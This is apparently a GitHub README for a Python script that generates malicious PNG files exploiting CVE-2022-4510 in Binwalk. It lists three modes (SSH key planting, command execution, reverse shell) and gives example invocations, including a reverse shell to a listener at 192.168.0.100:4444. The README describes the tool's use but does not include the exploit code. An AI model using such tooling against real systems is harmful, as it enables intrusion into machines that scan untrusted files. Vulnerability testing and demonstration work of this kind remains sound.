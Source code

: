 # CVE-2022-4510-Binwalk

This script allows you to generate exploits for targeting CVE-2022-4510 Binwalk vulnerabilities. The exploits can be used for testing and demonstrations. The supported options include SSH, command execution, and reverse shell.

## Prerequisites
- Python 3.x

## Usage
1. Clone the repository or download the script file.
2. Run the script with the desired options. The available options are:
   - `ssh`: Generate an exploit for SSH.
     - Arguments:
       - `file`: Path to the input .png file.
       - `pub`: Path to the public key file.
   - `command`: Generate an exploit for executing a command.
     - Arguments:
       - `--command`: Command to execute.
       - `file`: Path to the input .png file.
   - `reverse`: Generate an exploit for reverse shell.
     - Arguments:
       - `file`: Path to the input .png file.
       - `ip`: IP address of the listener.
       - `port`: Port number of the listener.

Example usages:
```
python exploit_generator.py ssh input.png public_key.pub
python exploit_generator.py command --command "ls -l" input.png
python exploit_generator.py reverse input.png 192.168.0.100 4444
```

## Output
The generated exploit will be saved as `binwalk_exploit.png` in the current directory.

## Disclaimer
Use this script responsibly and only on systems that you have permission to test or demonstrate vulnerabilities. The author is not responsible for any illegal or unauthorized use of this script.

## References
[https://github.com/electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510)
